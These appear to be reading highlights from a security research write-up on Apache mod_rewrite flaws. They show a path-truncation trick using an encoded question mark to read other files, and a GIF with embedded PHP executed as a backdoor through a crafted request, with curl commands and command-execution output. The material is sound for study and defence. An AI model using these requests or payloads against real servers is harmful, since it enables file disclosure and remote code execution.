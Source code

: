 

✔️ 1-1-1. Path Truncation [](https://read.readwise.io/read/01jnnhd3yfv9m03fy177e3t9ns)



Imagine the following `RewriteRule`:
 1 
 2 
 RewriteEngine On 
 RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml" 
 The server would open the corresponding profile based on the username followed by the path `/user/`, for example:
 1 
 2 
 $ curl http://server/user/orange 
 # the output of file `/var/user/orange/profile.yml` 
 Since `mod_rewrite` forcibly treats all rewritten result as a URL, even when the target is a filesystem path, it can be truncated at a question mark, cutting off the tailing `/profile.yml`, like:
 1 
 2 
 $ curl http://server/user/orange%2Fsecret.yml%3F 
 # the output of file `/var/user/orange/secret.yml` [](https://read.readwise.io/read/01jnnhf33yjjz249xb9qfbts0h)



✔️ 1-1-2. Mislead RewriteFlag Assignment [](https://read.readwise.io/read/01jnnhfjw2p4pvsqfwhyt96j8w)



Imagine a sysadmin managing websites and their corresponding handlers through the following `RewriteRule`:
 1 
 2 
 RewriteEngine On 
 RewriteRule ^(.+\.php)$ $1 [H=application/x-httpd-php] 
 If a request ends with the `.php` extension, it adds the corresponding handler for the `mod_php` [](https://read.readwise.io/read/01jnnhgvkmwnc446c3cyjxs1hf)



Since the truncation behavior of the `mod_rewrite` occurs after the regular expression match, an attacker can use the original rule to apply flags to requests they shouldn’t apply to by using a `?`. For example, an attacker could upload a GIF image embedded with malicious PHP code and execute it as a backdoor through the following crafted request:
 1 
 2 
 3 
 4 
 5 
 $ curl http://server/upload/1.gif 
 # GIF89a <?=`id`;> 
 $ curl http://server/upload/1.gif%3fooo.php 
 # GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data) [](https://read.readwise.io/read/01jnnhjrm4vdbtrqzydrp7mnbb)
